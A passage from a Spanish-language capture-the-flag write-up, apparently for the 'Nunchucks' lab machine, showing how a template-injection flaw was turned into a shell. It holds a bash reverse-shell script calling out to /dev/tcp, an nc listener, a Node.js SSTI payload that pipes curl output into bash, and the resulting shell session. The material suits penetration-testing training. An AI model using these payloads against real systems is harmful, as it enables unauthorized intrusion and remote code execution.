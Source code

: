 Por lo tanto, en nuestro equipo local crearemos un script sencillo en `Bash` para que se ejecute la Reverse Shell, este script lo compartiremos a través de un servidor web.

```bash
❯ cat shell.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde otra terminal, nos pondremos en escucha con `nc` para recibir la conexión.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos la siguiente inyección `SSTI` para que realice un `cURL` hacía nuestro script de la Reverse Shell y lo ejecute a través de una `bash`.

```javascript
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl http://10.10.16.3/shell.sh|bash')\")()}}
```

<figure><img src="../../.gitbook/assets/5046_vmware_fAYNzc0l0w.png" alt=""><figcaption></figcaption></figure>

Verificamos que finalmente logramos obtener el acceso correspondiente al sistema y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.122] 37010
bash: cannot set terminal process group (993): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ cat /home/david/user.txt
d967f92377f2*********************
```
